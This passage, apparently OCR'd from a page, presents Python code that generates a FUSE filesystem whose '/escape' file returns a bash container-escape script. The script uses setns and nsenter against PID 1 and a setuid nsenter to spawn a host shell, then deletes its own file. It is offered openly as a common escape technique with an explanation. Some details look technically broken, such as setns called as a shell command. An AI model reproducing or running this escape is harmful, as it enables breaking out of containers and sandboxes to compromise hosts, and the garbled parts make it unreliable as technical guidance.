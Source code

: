 ```python
        f.write("        if path == '/':\n")
        f.write("            return dict(st_mode=(stat.S_IFDIR | 0o755), st_nlink=2)\n")
        f.write("        else:\n")
        f.write("            raise FuseOSError(errno.ENOENT)\n")
        f.write("\n")
        f.write("    def readdir(self, path, fh):\n")
        f.write("        if path == '/':\n")
        f.write("            yield '.'\n")
        f.write("            yield '..'\n")
        f.write("            yield 'escape'\n")
        f.write("\n")
        f.write("    def open(self, path, flags):\n")
        f.write("        if path == '/escape':\n")
        f.write("            return 0\n")
        f.write("        else:\n")
        f.write("            raise FuseOSError(errno.ENOENT)\n")
        f.write("\n")
        f.write("    def read(self, path, size, offset, fh):\n")
        f.write("        if path == '/escape':\n")
        f.write("            # Create a script to escape the container\n")
        f.write('            escape_script = """#!/bin/bash\n')
        f.write('            setns {} /proc/1/ns/mnt\n'.format(os.getpid()))
        f.write('            chmod +s /tmp/nsenter\n')
        f.write('            /tmp/nsenter -t 1 -m -u -p -i /bin/sh\n')
        f.write('            """\n')
        f.write('            return escape_script.encode(\'utf-8\')\n')
        f.write("        else:\n")
        f.write("            raise FuseOSError(errno.ENOENT)\n")
        f.write("\n")
        f.write("    def destroy(self, path):\n")
        f.write("        os.remove(\"/tmp/host-escape.py\")  # Cleanup\n")
        f.write("\n")
        f.write("if __name__ == '__main__':\n")
        f.write("    fuse = FUSE(RootFS(), '/tmp/hostfs', foreground=True)\n")

```

* **Explanation:**
    * The Python script creates a FUSE filesystem where reading the file `/escape` returns a shell script.
    * The shell script uses `setns` to move to the host's mount namespace (using `PID 1`).
    * It sets the setuid bit on the statically compiled nsenter, and then it uses the nsenter utility with the -t 1 -m -u -p -i flags to enter the host's mount, user, pid, and IPC namespaces.
    * It then executes `/bin/sh` as the newly remapped user.
    *  The cleanup command `os.remove("/tmp/host-escape.py")` ensures the cleanup function removes the python file created.

* **Why:**
    * FUSE allows us to create a filesystem in userspace, which gives us the ability to control the contents of the filesystem.
    * This is a common container escape technique.
